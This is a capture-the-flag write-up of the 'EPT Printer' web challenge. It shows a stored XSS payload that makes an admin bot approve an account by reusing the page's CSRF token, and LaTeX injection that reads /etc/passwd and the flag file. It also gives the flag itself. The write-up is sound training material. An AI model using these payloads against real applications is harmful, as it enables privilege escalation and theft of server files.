









## EPT Printer Writeup
###### Author/solved by: Tinius
###### Team: Datasnok


## Challenge description
```text
By: klarz

Welcome to EPT Printing Technologies – Your Ultimate Printing Challenge!

Test your skills in agile digital printing with our virtual print service. Submit print jobs with precision and speed using our intuitive interface.

Want more? Experience onsite printing with a simple NFC card tap, merging modern tech with traditional printing.

Are you ready to prove your mastery? Start now and see if you can conquer the world of EPT printing. Good luck!
```
### Challenge Note
```text
You need a valid onsite card/badge to be able to solve this challenge.
Remember that the flag needs to be in this format: EPT{x}
The api_proxy containers are not a part of the challenge, you do not need to look into them to solve the challenge, they are there just to make the challenge function. In addition, the webapp needs to run on port 8000 if you launch it locally.
You need to scan your card at the printers to actually print the job. It might also take a few seconds before the printer actually prints.
```

## Initial investigation and thoughts

### The site:





It is clear that we need to somehow get approval to print something.

### Investigating the code:
The docker-compose:
```yaml
version: '3'
services:
  webapp:
    build: ./webapp
    ports:
      - "8000:8000"
    environment:
      - IS_PRODUCTION=${IS_PRODUCTION:-false}
      - ADMIN_USERNAME=${ADMIN_USERNAME:-admin}
      - ADMIN_PASSWORD=${ADMIN_PASSWORD:-admin}
      - TURNSTILE_SITEKEY=${TURNSTILE_SITEKEY}
      - TURNSTILE_SECRET_KEY=${TURNSTILE_SECRET_KEY}
      - AUTH_API_PROXY_URL=${AUTH_API_PROXY_URL:-http://auth-api-proxy:8001}
      - PRINT_API_PROXY_URL=${PRINT_API_PROXY_URL:-http://print-api-proxy:8002}
      - PDF_TITLE_LENGTH_LIMIT=${PDF_TITLE_LENGTH_LIMIT:-30}
      - PDF_CONTENT_LENGTH_LIMIT=${PDF_CONTENT_LENGTH_LIMIT:-500}
      - PDF_PAGE_COUNT_LIMIT=${PDF_PAGE_COUNT_LIMIT:-1}
      - PDF_FILE_SIZE_LIMIT=${PDF_FILE_SIZE_LIMIT:-133337}
    depends_on:
      - auth-api-proxy
      - print-api-proxy
    networks:
      - ctf-network

  adminbot:
    build: ./adminbot
    environment:
      - ADMIN_USERNAME=${ADMIN_USERNAME:-admin}
      - ADMIN_PASSWORD=${ADMIN_PASSWORD:-admin}
      - APPLICATIONS_CHECK_FREQUENCY_SECONDS=${APPLICATIONS_CHECK_FREQUENCY_SECONDS:-30}
      - WEBAPP_URL=${WEBAPP_URL:-http://webapp:8000}
    depends_on:
      - webapp
    networks:
      - ctf-network

  auth-api-proxy:
    build: ./auth_api_proxy
    environment:
      - AUTH_API_URL=${AUTH_API_URL:-https://ept-printer-auth-api.ept.gg}
    networks:
      - ctf-network

  print-api-proxy:
    build: ./print_api_proxy
    environment:
      - PRINT_API_URL=${PRINT_API_URL}
      - PRINT_API_KEY=${PRINT_API_KEY}
    networks:
      - ctf-network


networks:
  ctf-network:
    driver: bridge
```

Here we can see that we have an admin bot, by experience I know that this is challenge probably has an XSS piece to it.
So lets test that theory.

#### Trying XSS
We controll the application and when we look at the code we see that the bot checks that every 30 seconds.

The bot:
```python
import os
import time

from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By

WEBAPP_URL = os.getenv("WEBAPP_URL", "http://webapp:8000")
APPLICATIONS_CHECK_FREQUENCY_SECONDS = int(
    os.getenv("APPLICATIONS_CHECK_FREQUENCY_SECONDS", 30)
)

while True:
    try:
        options = Options()
        options.add_argument("headless")
        options.add_argument("no-sandbox")
        options.add_argument("disable-dev-shm-usage")
        options.add_argument("disable-infobars")
        options.add_argument("disable-background-networking")
        options.add_argument("disable-default-apps")
        options.add_argument("disable-extensions")
        options.add_argument("disable-gpu")
        options.add_argument("disable-sync")
        options.add_argument("disable-translate")
        options.add_argument("hide-scrollbars")
        options.add_argument("metrics-recording-only")
        options.add_argument("mute-audio")
        options.add_argument("no-first-run")
        options.add_argument("dns-prefetch-disable")
        options.add_argument("safebrowsing-disable-auto-update")
        options.add_argument("media-cache-size=1")
        options.add_argument("disk-cache-size=1")
        browser = webdriver.Chrome(options=options)
        browser.set_page_load_timeout(5)
        browser.implicitly_wait(5)

        print("Logging into the portal")
        browser.get(f"{WEBAPP_URL}/admin/login")

        time.sleep(3)
        browser.find_element(By.ID, "username").send_keys(
            os.environ.get("ADMIN_USERNAME")
        )
        browser.find_element(By.ID, "password").send_keys(
            os.environ.get("ADMIN_PASSWORD")
        )
        browser.find_element(By.ID, "submit").click()

        print("Logged in, cookies:", browser.get_cookies())
        time.sleep(3)

        print("Fetching latest applications")
        browser.get(f"{WEBAPP_URL}/applications")
        try:
            unreviewed_application_element = browser.find_element(
                By.CLASS_NAME, "application-unreviewed"
            )
        except:
            print("Could not find any unreviewed applications")
            unreviewed_application_element = None

        if unreviewed_application_element:
            application_uuid = unreviewed_application_element.get_attribute(
                "data-application-uuid"
            )
            print(f"Visiting unreviewed application: {application_uuid}")
            browser.get(f"{WEBAPP_URL}/applications/{application_uuid}")
    except Exception as e:
        print("Got error whilst checking applications:", e)

    browser.quit()
    time.sleep(APPLICATIONS_CHECK_FREQUENCY_SECONDS)
```

## XSS
We craft an application with the script tag to see what happends:
```html
<script>alert(1)</script>
```



Clicking the application we are prompted with:



This means that the application is capable of running scripts, so we can craft a script to make the bot approve the application.

Taking a deeper dive at the web app code we find this route that is used to approve the applications:
```python
@bp.route("/approve", methods=["POST"])
@login_required
def approve():
    form = ApprovalForm()
    if not current_user.is_admin:
        flash(
            "You do not have permission to approve applications",
            MessageType.ERROR.value,
        )
        return render_template("approve.html")
    if not form.validate_on_submit():
        for field, errors in form.errors.items():
            flash(f"{field}: {' '.join(errors)}", MessageType.ERROR.value)
        return render_template("approve.html")
    user_id = form.user_id.data
    user = User.query.filter_by(id=user_id).first()
    if not user:
        flash(f"No user with ID {user_id} could be found", MessageType.ERROR.value)
        return render_template("approve.html")
    user.approved = True
    db.session.commit()
    return render_template("approve.html", user=user)
```

So lets try to craft a script that will approve the application, but first we need to figure out our user id:
I did that by using this tools [Flask Session Cookie Decoder](https://www.kirsle.net/wizards/flask-session.cgi)

I got:
```json
{
  ...
  "user_id": 2,
  ...
}
```
Crafting the script:

```html
<script>fetch('/approve',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'user_id=2'});</script>
```
But it did not work for som reason. The admin viewed the application but did not approve it.


Looking at the form we can see that it uses the flask package `Flask-WFT` which [uses CSRF tokens](https://flask-wtf.readthedocs.io/en/0.15.x/csrf/).

Then we needed to create a payload that used the CSRF token.

```html
<script>fetch('/approve',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'csrf_token='+document.getElementsByName('csrf_token')[0].value+'&user_id=2'})</script>
```


## Printing!
Looking at the code we can see that the printer uses a Latex template to print the document. Good news is that we can try to inject code into the template.

We already know where the flag is located, so we can just try to include it in the template. And hopefully the printer will print it out.
```latex
\input{/flag.txt}
```


So we try another file we know is located on the system:
```latex
\input{/etc/passwd}
```


So something must be up with the content of flag.txt
Latex interprets the underscore as a special character, so we need to escape it. To be safe we can escape all the "illegal" characters.
```latex
{\catcode`\_=12 \catcode`\#=12 \catcode`\%=12 \input{/flag.txt}}
```


```text
EPT{Y0U_4R3_4_PR1NT3R_M4ST3R}
```


<br>
<br>


## A better XSS solution
Looking at other writeups and talking to other users I found a better solution to the problem. 
Since the form is already loaded we can just click the button that is first in the DOM. Instead of crafting a script that sends a POST request with csrf and userid.
```html
<script>
    document.querySelector("button").click();
</script>
```